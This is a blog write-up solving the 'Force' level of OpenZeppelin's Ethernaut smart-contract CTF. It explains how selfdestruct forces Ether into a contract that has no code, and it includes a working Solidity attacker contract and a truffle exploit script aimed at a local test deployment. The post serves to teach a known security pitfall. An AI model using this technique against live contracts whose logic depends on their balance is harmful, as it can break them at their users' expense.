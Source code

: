 Title: Solving OpenZeppelin's Ethernaut CTF - Force
Date: 2018-11-23
Tags: ethereum, solidity, ctf, smart contracts
Slug: force-challenge-solution
Summary: Post #8 of a series in which we tackle the challenges in the [Ethernaut CTF by OpenZeppelin](https://ethernaut.openzeppelin.com/){:target="_blank",:rel="noopener"}. All contracts have a hidden self-destruct button. Did you known that? Read on, and see it for yourself.

## Introduction
In [Force](https://ethernaut.openzeppelin.com/level/0x24d661beb31b85a7d775272d7841f80e662c283b), we need to make the balance of the Force contract greater than zero. In previous challenges we learned how to send transactions to contracts both from other contracts or using the `web3` library. Along these transactions, we would be allowed to send ether as long as the transferee had some kind of `payable` function (be it the constructor, a custom one and/or the fallback).

However, the Force contract does not have any code. I mean, **none**. How are we supposed to deposit Ether into it ? Well, luckily, we have an ace under the sleeve.

## OK contract, selfdestruct
I don't know if you were aware of this, but there's a way to "remove" code from the blockchain. Just code, external accounts cannot be removed from the state.

Every Ethereum smart contract has a hidden `selfdestruct` button, which can pressed at any time to blow the whole thing up. With one little addition: all Ether deposited in the destroyed contract can be automatically sent to whichever other account the contract (i.e. the developer) designates. This happens no matter what.

In other words, any contract can receive Ether at any time, regardless of the logic that it may implement in its code (if it has any *:wink:*). This is the reason why it is considered dangerous to bound the logic of sensible actions to the amount of Ether in balance.

For more details about `selfdestruct`, as always, refer to [the Solidity docs on selfdestruct](https://solidity.readthedocs.io/en/v0.4.25/introduction-to-smart-contracts.html#self-destruct).

We've now found a way through which a contract could send Ether to the codeless Force contract, thus incrementing its balance. So let's do it!.

## Attacking Force
To begin with, code an attacker contract to be sacrificed. Something like the following will do the trick. In the constructor we're just setting the victim address, while in the `destruct` function we just `selfdestruct` the contract, targetting the victim.

~~~solidity
pragma solidity ^0.4.18;

contract ForceAttack {
    address forceAddress;

    function ForceAttack(address _addr) public payable {
        forceAddress = _addr;
    }

    function destruct() public {
        // Execute selfdestruct
        // sending all remaining Ether to forceAddress
        selfdestruct(forceAddress);
    }
}
~~~

Let's see now how to interact with `ForceAttack` and trigger the attack through `web3`. As always, create a new file under the `exploits` folder called `force.exploit.js` and keep the same exploit structure we've been using since the first challenge.

~~~javascript
const ForceContract = artifacts.require('Force')
const ForceAttackContract = artifacts.require('ForceAttack')
const assert = require('assert')

async function execute(callback) {
    // Get a reference to the deployed Force contract
    const contractForce = await ForceContract.deployed()

    // Deploy new contract with initial balance of 5 ETH
    const INITIAL_BALANCE = 5
    const attackerContract = await ForceAttackContract.new(contractForce.address, {
        value: web3.toWei(INITIAL_BALANCE, 'ether')
    })
    
    // Initial balance of Force contract should be 0
    let balance = await web3.eth.getBalance(contractForce.address)
    assert.equal(balance, 0)
    console.log(`Initial balance: ${balance} ETH`)
    
    await attackerContract.destruct()
    
    // Once the transaction is done, final balance of Force contract must have changed
    balance = web3.fromWei(await web3.eth.getBalance(contractForce.address), 'ether')
    assert.equal(balance, INITIAL_BALANCE)
    console.log(`Final balance: ${balance} ETH`)

    callback()
}

module.exports = execute
~~~

I've added some comments to the exploit, though it is as self-explanatory as can be:

1. Deploy the attacker contract
2. Call the `destruct` function
3. Pass challenge

The rest are just utilities to validate and log each step of the attack.

So that's it!

Make sure that you've deployed the Force contract to `ganache` before running the exploit with `npx truffle exec exploits/force.exploit.js`.

Even though the challenge may have been a little basic, it taught us a new feature of smart contracts that we'd never seen before, which might come in handy at some point.

You can find the whole [exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/force.exploit.js) and the [attacker contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/ForceAttack.sol) at the GitHub repo.

For the next post, be ready to do some Ethereum lockpicking, because we are gonna have to unlock a [Vault](https://ethernaut.openzeppelin.com/level/0xe77b0bea3f019b1df2c9663c823a2ae65afb6a5f). 

